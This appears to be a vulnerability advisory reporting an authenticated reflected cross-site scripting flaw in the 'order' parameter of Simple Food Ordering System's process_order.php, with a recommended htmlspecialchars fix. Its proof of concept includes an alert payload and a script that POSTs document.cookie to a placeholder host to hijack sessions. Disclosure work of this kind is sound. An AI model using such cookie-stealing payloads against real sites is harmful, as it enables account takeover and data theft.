 # Simple Food Ordering System - Authenticated Reflected Cross Site Scripting

### Date: 
> 17 February 2023

### Author Email: 
> navaidnasari@hotmail.co.uk

### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [Simple Food Ordering System](https://www.sourcecodester.com/php/15418/simple-food-ordering-system-client-side-phpmysqli-free-source-code.html)

### Version:
> v 1.0

### What is Reflected Cross-Site Scripting:
> Reflected cross-site scripting (XSS) is a type of web vulnerability that occurs when a web application fails to properly sanitize user input, allowing an attacker to inject malicious code into the application's response to a user's request. When the user's browser receives the response, the malicious code is executed, potentially allowing the attacker to steal sensitive information or take control of the user's account.

### Affected Page: 
> process_order.php
> In this page order parameter are vulnerable to Reflected Cross Site Scripting Attack

### Description:
> The Reflected XSS found in order parameter of process_order.php page. Authenticated Reflected Cross-Site Scripting (XSS) is a serious vulnerability that can have a significant impact on the security of a web application and its users. The risk of Authenticated Reflected XSS is similar to that of Reflected XSS, but with the added danger that the attacker must first gain access to a valid user account in order to exploit the vulnerability. The main risk associated with Authenticated Reflected XSS is that it can allow an attacker to steal sensitive information or take control of a user's account on a web application. This can include login credentials, financial information, personal information, and more. Once an attacker gains access to a user's account, they can perform any actions that the user is authorized to do. In addition, Authenticated Reflected XSS can also be used as a stepping stone to launch more advanced attacks, such as phishing attacks, malware distribution, or distributed denial-of-service attacks. By gaining control of a user's account on a web application, an attacker can use that account as a launching point for further attacks against the user or the web application itself.

### Proof of Concept:
> Initially, I tried to verify the XSS attack, I used standard XSS payload <script>alert("Verification");</script> and the Below Image confirmed that, the parameter is vulnerable to reflected XSS.
> Payload: process_order.php?order=<script>alert(1)<%2fscript>mjii5
> ![image](https://user-images.githubusercontent.com/123810418/219716828-62b529c9-8366-4051-8b2c-f9065b158089.png)

> Based on that, I have decided to make it realistic attack and use burp colloborator to hijack user cookie:
> Payload: process_order.php?order=<script>fetch(%27http://dummyurl/%27,{method:%27POST%27,mode:%27no-cors%27,body:document.cookie});</script>
>  ![image](https://user-images.githubusercontent.com/123810418/219717379-d085a7ec-29d4-4d2c-ba19-69e5011891e8.png)

### Recommendation: 
> Whoever uses this CMS, should update line no 41 of process_order.php with the following code to avoid cross-site scripting attack:
```
Old Code: <?php echo $_GET['order']; ?>
New Code: <?php echo htmlspecialchars(strip_tags($_GET['order'])); ?>
```

Thank you for reading

